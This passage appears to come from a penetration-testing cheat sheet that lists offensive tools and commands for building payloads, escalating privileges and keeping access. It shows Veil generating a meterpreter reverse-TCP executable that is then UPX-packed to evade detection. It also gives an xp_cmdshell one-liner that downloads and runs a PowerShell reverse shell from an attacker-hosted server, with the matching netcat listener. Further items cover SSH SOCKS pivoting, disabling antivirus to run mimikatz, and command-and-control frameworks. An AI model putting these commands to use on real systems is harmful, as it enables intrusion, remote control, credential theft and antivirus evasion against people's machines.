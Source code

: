 	   [*] Language: python
	   [*] Payload Module: python/meterpreter/rev_tcp
	   [*] Executable written to: /var/lib/veil/output/compiled/hello.exe
	   [*] Source code written to: /var/lib/veil/output/source/hello.py
	   [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/hello.rc

	  Hit enter to continue...
      ```
      Lastly, using UPX compress the executable:
      ```bash
      ┌──(rootkali)-[~]
	  └─# mv /var/lib/veil/output/compiled/hello.exe hello_world.exe

	  ┌──(rootkali)-[~]
	  └─# upx --best --ultra-brute -o hello_sneak.exe hello_world.exe
      ```
      The payload that must be used in this case in the Metasploit handler would be `windows/meterpreter/reverse_tcp`
- [**Armitage**](https://github.com/rsmudge/armitage)**:** GUI para metasploit
- [**Hydra**](https://github.com/vanhauser-thc/thc-hydra)**:** Search for passwords by brute force through a protocol or web
- [**SessionGopher**](https://github.com/Arvanaghi/SessionGopher)**:** SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools
- [**linpeas/winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)**:** Take info out of the machine to see how to scale
- To see what permissions we have in Windows we can execute: `whoami /priv`. If we have `SeImpersonatePrivilege` or `SeImpersonatePrivilege` we can possibly escalate privileges easily
- [**Seatbelt**](https://github.com/GhostPack/Seatbelt)**:** Similar to the previous one but only with Windows. [Here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) you can download the already compiled .exe
	- If Seatbelt finds that an account has the credentials saved in windows Credential Manager we can run commands like that account as follows: `runas /savecred /user:<usario> /profile "cmd.exe"`
- [**John the Ripper**](https://github.com/openwall/john)**:** Allows you to crack a lot of password types.
- [**Invoke-CradleCrafter**](https://github.com/danielbohannon/Invoke-CradleCrafter)**:** Allow you to generate obfuscated payloads to be executed in Powershell
- [**Invoke-Obfuscation**](https://github.com/danielbohannon/Invoke-Obfuscation)**:** Allow you to obfuscate Powershell payloads
- **ReverShell from server SQL:**
	- With this command: `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` you can execute
the reverse shell we have on the computer from vulnerable SQL server. 
	- Remember to do this locally: 
		- **`python3 -m http.server 80`:** In the directory where you have the `reverseShell` file
		- **`nc -lvnp 443`:** To listen to the connection of the target machine that will provide us with a remote shell
		- **`ufw allow from 10.10.10.27 proto tcp to any port 80,443`:** Open the specified ports if you have `Uncomplicated Firewall`
### Maintain access, Cover trace, and Report
- **SSH tunneling:** Using a dynamic port forwarding with SSH we can use the remote host as a SOCKS and configure it in `proxychains` for pivoting: `ssh -q -N -D 127.0.0.1:8000 -i privateKey.pem user@remoteHost`
- **mimikatz:** Most commonly used to dump and crack passwords on Windows systems. You must disable the antivirus on the target machine or use an obfuscated version since being so used is easily detected
- **Command and Control Server:**
	- [**Powershell Empire**](https://github.com/BC-SECURITY/Empire/)**:** Post-exploitation Framework. It has several useful tools and allows easy control of exploited machines
	- [**Starkiller**](https://github.com/BC-SECURITY/Starkiller)**:** Frontend for Powershell Empire
	- [**Villain**](https://github.com/t3l3machus/villain)**:** Backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions